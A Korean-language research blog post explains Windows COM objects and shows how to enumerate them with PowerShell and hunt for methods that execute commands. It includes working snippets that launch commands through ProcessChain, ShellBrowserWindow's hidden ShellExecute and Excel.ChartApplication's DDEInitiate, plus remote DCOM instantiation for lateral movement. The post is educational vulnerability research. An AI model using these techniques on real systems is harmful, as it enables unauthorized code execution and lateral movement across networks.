










# Introduction

안녕하세요! ogu123입니다!! 

최근 Antivirus 취약점 공부를 하다가 COM Object를 통해 익스플로잇을 하는 글을 발견하고 COM이 뭐지?? 빠르게 공부해야지 <br>히히! ← 하다가 연구글까지 왔습니다.

원래 일주일 안에 COM 공부를 끝내려고 했는데… 네.. 공부할 게 많고 내용도 추상적이고 자료도 많이 없고…어쩌구 저쩌구.. 그래서! 공부했던 내용도 정리할 겸 연구글을 작성하게 되었습니다. 

첫 연구글이라 떨리네요 휴.. 추상적인 내용은 최대한 빼고 눈으로 확인할 수 있게 실습 위주로 준비했습니다. <br>이제 신나게 COM 공부를 하러 가보져!


# COM 개념

COM(Component Object Model)은 [Microsoft 기술](https://learn.microsoft.com/ko-kr/windows/win32/com/the-component-object-model)로 아래와 같이 설명하고 있습니다.

> COM은 상호 작용할 수 있는 이진 소프트웨어 구성 요소를 만들기 위한 플랫폼 독립적, 분산된 개체지향 시스템 입니다. COM은 Microsoft의 OLE(복합 문서) 및 ActiveX(인터넷 지원 구성 요소) 기술의 기반 기술입니다.
> 

네... 한국말로 쓰여있긴 하지만 암호화되어 있는 느낌이네요…

쉽게! A 프로그램에 있는 특정 기능(컴포넌트)을 다른 여러 프로그램에서 사용하고 싶다면, COM을 통해 이 기능을 주고받을 수 있습니다! 

예를 들어, A 프로그램에서 계산기 기능을 구현하고, 이 기능을 EXE 파일, Java 애플리케이션, 웹 페이지 등 다양한 클라이언트가 사용하기 위해, A 프로그램의 계산기 기능을 COM 인터페이스를 사용해 COM 객체로 변환하면 됩니다.

A 프로그램은 계산기 기능을 COM 객체로 외부에 노출해 다양한 클라이언트에서 사용할 수 있게 됩니다!


# Windows 레지스트리와 COM 객체

모든 COM 객체는 고유한 식별자 값인 CLSID(Class Identifier)를 아래와 같은 형태로 가지고 있습니다.

```
{FDEA20DB-AC7A-42f8-90EE-82208B9B4FC0}

```
COM 객체를 사용하기 위해 저 값을 외운다면 쓸 사람이 없겠죠…?? 

따라서, ip와 도메인같이 CLSID에도 도메인 역할을 하는 ProgID(프로그래밍 식별자)가 아래와 같이 애플리케이션.컴포넌트.버전 형식으로 구성되어 있습니다.

```
Word.Application.8
```

CLSID와 ProgID는 Windows 레지스트리 HKEY_CLASSES_ROOT\CLSID에서 관리되며, 

각 CLSID에 파일 경로(DLL or EXE)가 포함되어 있는데 해당 파일에 COM 객체가 구현되어 있습니다.

따라서, CLSID 또는 ProgID를 통해 COM 객체 요청을 받으면 HKEY_CLASSES_ROOT\CLSID 레지스트리를 참고해 COM 객체가 구현된 파일 경로를 찾아 COM 객체를 생성하게 되는 것입니다.


# PowerShell을 이용한 CLSID 확인 방법

```
Get-ChildItem -Path "Registry::HKEY_CLASSES_ROOT\CLSID" -Name | Out-File -FilePath clsids.txt

```
실습을 통해 Windows 시스템에 등록된 CLSID 목록을 직접 확인해 보겠습니다.

위 명령어를 실행하면 clsids.txt 파일에 Windows 시스템에 등록된 모든 CLSID 목록이 저장됩니다.

참고로 저는 Windows 11 환경에서 진행했습니다!




CLSID는 시스템에 등록된 COM 객체를 식별하는 고유한 값이므로, 이를 활용하여 특정 COM 객체의 메소드와 속성을 확인할 수 있습니다.


# COM 객체의 메소드 및 속성 탐색


```
$Position = 1
$OutputFile = "win11-clsid-members.txt"
$InputFile = "clsids.txt"

# CLSID 목록 처리 (첫 줄 건너뛰기)
foreach ($CLSID in Get-Content $InputFile | Select-Object -Skip 1) {
    try {
        Add-Content -Path $OutputFile -Value "$Position - $CLSID"
        Add-Content -Path $OutputFile -Value "------------------------------------------------"

        # COM 객체 생성 및 메소드/속성 추출
        $Instance = [Activator]::CreateInstance([Type]::GetTypeFromCLSID($CLSID))
        if ($Instance -ne $null) {
            $Instance | Get-Member | Add-Content -Path $OutputFile
        } else {
            Add-Content -Path $OutputFile -Value "Failed to create instance for CLSID: $CLSID"
        }
    } catch {
        Add-Content -Path $OutputFile -Value "Error processing CLSID: $CLSID"
        Add-Content -Path $OutputFile -Value $_.Exception.Message
    }
    $Position++
}


```

추출된 CLSID로부터 COM 객체를 인스턴스화하고, 해당 객체가 제공하는 메소드와 속성을 확인해 보겠습니다.




생성된 win11-clsid-members.txt 파일 내용을 확인하면, 특정 CLSID를 통해 COM 객체의 메소드와 속성을 확인할 수 있습니다.

그럼 메소드와 속성을 왜 확인해야 할까요?


# COM 객체의 메소드와 속성 활용


메소드와 속성을 확인하면, 분석할 만한 흥미로운(??) COM 객체를 찾을 수 있습니다!

관리자 권한 없이 접근 가능한 객체이면서, 악용할 수 있는 메소드를 가지고 있으면 취약점으로 이어질 수 있기 때문에 분석 대상으로 선정할 수 있습니다. (공개되지 않았거나 문서화되지 않은 객체면 더욱 좋겠죠)

대부분의 COM 서버(객체를 구현한 코드)는 DLL 파일로 구현되며, 해당 DLL 경로는 각 CLSID의 InprocServer32 키에 저장되어 있습니다. 

따라서, 분석 타겟이 되는 COM 객체를 선정했다면 해당 DLL 파일을 통해 분석할 수 있습니다.


직접 확인해 보신 분들은 아시겠지만 COM 서버를 EXE 파일로도 구현할 수 있습니다. 

두 가지 파일로 나뉘는 이유는 뒤에서 설명드리도록 하겠습니다! 너무 많이 알고 있으면 어지럽기 때문이죠…


# Windows COM 객체 개수

Windows 7은 총 8,282개의 COM 객체가 존재하고 Windows 10은 Windows 7에서 3,250개의 새로운 COM 객체가 추가되었습니다.

네.. 분석할 COM 객체는 걱정 안 하셔도 됩니다.. 뒤에서도 나오겠지만 사실 더 많은 COM 객체가 존재합니다.


# 분석 타겟 COM 객체 선정

분석할 만한 COM 객체를 선정하기 위해서는 키워드 기반으로 1차적으로 선별할 수 있습니다.

추출된 COM 객체의 멤버(메소드와 속성) 중 아래와 같은 멤버가 있으면 분석 타겟으로 좋겠죠

- execute
- exec
- spawn
- launch
- run ...


# ProcessChain COM 객체

간단한 실습으로 객체의 메소드와 속성을 살펴보고 임의의 명령어를 실행해 보겠습니다.

실습할 COM 객체는 ProcessChain으로 아래와 같은 정보를 가지고 있습니다.





1. CLSID : {E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E}
2. COM 서버 : C:\Program Files (x86)\Windows Kits\10\App Certification Kit\prchauto.dll

Type Library(TypeLib)는 COM 객체가 제공하는 인터페이스, 메소드, 속성 등의 정보를 포함하는 라이브러리입니다. 

일반적으로 COM 객체를 만들 때 Type Library를 생성하지만, 만약 없는 경우에는 디컴파일 도구를 사용해 분석을 해야 합니다.

ProcessChain은 Type Library를 포함하고 있기 때문에 [oleview.exe 도구](https://learn.microsoft.com/ko-kr/windows/win32/com/ole-com-object-viewer)를 사용하면 쉽게 객체의 멤버를 확인할 수 있습니다!





ProcessChain COM 객체의 여러 메소드와 속성을 확인할 수 있으며, 이 중 CommandLine 속성과 Start 메소드를 활용해 임의의 명령어를 실행할 수 있습니다.

아래 PowerShell 명령어를 확인하면, CommandLine 속성에 원하는 명령어를 설정하고, Start 메소드를 호출하여 해당 명령어를 실행할 수 있습니다.


```
$handle = [activator]::CreateInstance([type]::GetTypeFromCLSID("E430E93D-09A9-4DC5-80E3-CBB2FB9AF28E"))
$handle.CommandLine = "cmd /c calc.exe"
$handle.Start([ref]$True)

```



간단하죠?? 이외에도 아래 COM 객체들을 통해 다양한 공격이 발생할 수 있습니다.

- Msxml2.XMLHTTP.3.0를 통한 파일 리스 공격
- Schedule.Service를 통한 작업 스케줄러 공격

지금까지는 시스템 내 모든 COM 객체를 확인하고, 이를 인스턴스화한 뒤 속성과 메소드를 탐색했습니다. 

하지만 이 방법은 COM 객체가 제공하는 전체 기능의 일부만을 탐색합니다.

왜냐하면 일부 COM 객체는 다른 객체를 반환할 수 있고, 이러한 객체들은 직접 인스턴스화되지 않고 다른 객체의 속성이나 메소드를 통해서만 접근이 가능하기 때문입니다.

공개된 COM 취약점 대부분은 COM 객체의 하위 속성을 통해 노출되는 숨겨진 메소드를 활용하기 때문에 취약점을 찾기 위해서는 객체 안에 숨겨진 객체를 찾아야 합니다…


# ShellBrowserWindow COM 객체의 숨겨진 메소드 탐색


ShellBrowserWindow는 COM 객체 내부에서 ShellExecute 메소드를 제공하지만, 이 메소드는 객체의 직접적인 메소드 목록에 노출되지 않습니다. 

대신, Document.Application 속성에서 반환된 Shell 객체를 통해 접근할 수 있습니다.


```
$instance = [activator]::CreateInstance([type]::GetTypeFromCLSID("{c08afd90-f2a1-11d1-8455-00a0c91f3880}"))
$instance | gm -MemberType Method | where -Property Name -Like "*shell*"
$instance.Document.Application | gm -MemberType Method | where -Property Name -Like "*shell*

```




PowerShell 명령어를 확인하면, ShellBrowserWindow 객체 내부에서는 `ShellExecute` 메소드를 찾을 수 없지만 Document.Application 속성을 통해 Shell 객체에 접근할 수 있고 Shell 객체를 통해 `ShellExecute` 메소드를 확인할 수 있습니다.

`Document.Application` 속성 이외에도 `Document.Application.Parent` 속성으로부터 반환된 객체에서 `ShellExecute` 메소드를 아래와 같이 호출할 수 있습니다.


```

$instance = [activator]::CreateInstance([type]::GetTypeFromCLSID("{c08afd90-f2a1-11d1-8455-00a0c91f3880}"))
$instance.Document.Application.Parent | gm -MemberType Method | where -Property Name -Like "*shell*"
$instance.Document.Application.Parent.ShellExecute("calc.exe")

```



위 예시를 통해 정적 분석으로는 속성으로 반환되는 동적 객체에 포함된 숨겨진 메소드를 찾을 수 없다는 것을 확인했습니다.

따라서, 재귀적 탐색을 통해 객체의 속성과 하위 속성에서 반환되는 메소드를 찾아야 합니다. ~~(재귀적 하니까 BFS, DFS 알고리즘이 떠오르네요..)~~

앞서 Windows COM 개수를 말씀드리면서 더 많은 객체가 존재한다고 했는데 이러한 이유 때문입니다…


# COM 객체를 통한 명령어 실행

이번에는 재귀적 탐색을 통해 발견된 메소드를 이용해 임의의 명령어를 실행해 보겠습니다.

ProgID가 Excel.ChartApplication인 COM 객체에서 여러 속성을 통해 DDEInitiate 메소드를 확인할 수 있습니다.

해당 메소드는 DDE(Dynamic Data Exchange) 프로토콜을 사용하기 때문에 이를 이용하면 외부 명령어를 실행할 수 있습니다.


```

$instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.ChartApplication"))
$instance.Application | gm -MemberType Method | where -Property name -like "*DDEInitiate*"
$instance.Parent | gm -MemberType Method | where -Property name -like "*DDEInitiate*"
$instance.UsedObjects | gm -MemberType Method | where -Property name -like "*DDEInitiate*"

```



PowerShell을 확인하면, Excel.ChartApplication 객체의 여러 속성을 통해 DDEInitiate 메소드를 접근할 수 있는 것을 확인할 수 있습니다.


# 원격 COM 객체 인스턴스화와 명령어 실행


```
$instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.ChartApplication"))
$instance.Parent.DDEInitiate("cmd","/c calc.exe")

$instance.Parent.DisplayAlerts = $false
$instance.Parent.DDEInitiate("cmd","/c calc.exe")

```



Excel.ChartApplication COM 객체의 DDEInitiate 메소드를 통해 임의의 명령어를 실행시킬 수 있습니다.

```
$instance = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.ChartApplication", XXX.XXX.XXX.XXX))

```

이때, DisplayAlerts 속성 값을 false로 수정 후 타겟 ip와 함께 객체를 생성하면 원격에서 인스턴스화 후 임의의 명령어가 실행됩니다.

과거 Office 2013에서 DDEInitiate 메소드를 통해 [악용된 사례](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)가 있었다고 합니다.

따라서, COM 객체의 재귀적 탐색을 통해 기존에 알려진 COM 객체 메소드 외에도 새로운 객체와 메소드를 탐색함으로써 악용 가능한 추가 경로를 찾아낼 수 있습니다.


# 마치며

이번 글을 통해 COM이 무엇이고 어떻게 활용되는지 실습해 보면서 분석할 타겟 COM을 찾는 방법까지 확인해 봤습니다. 

그런데 아직 할 게 많습니다… 특정 프로그램의 COM 분석은 어떻게 해야 하는지… COM 서버는 EXE 파일도 있다는데 DLL 파일과 다른 점은 뭐고… COM을 주고받을 때 내부적으로 통신은 어떻게 처리하는지… 더 깊이 들어가면 STA, MTA 등등 

네 일주일 만에 못 한 이유가 있습니다. 공부가 끝이 없네요.. 기회가 된다면 다음 연구글은 다중 스레드 환경에서 COM 객체를 사용하기 위한 아파트 개념을 들고 오도록 하겠습니다.! 

긴 글 읽어주셔서 감사합니당 ㅎㅎ


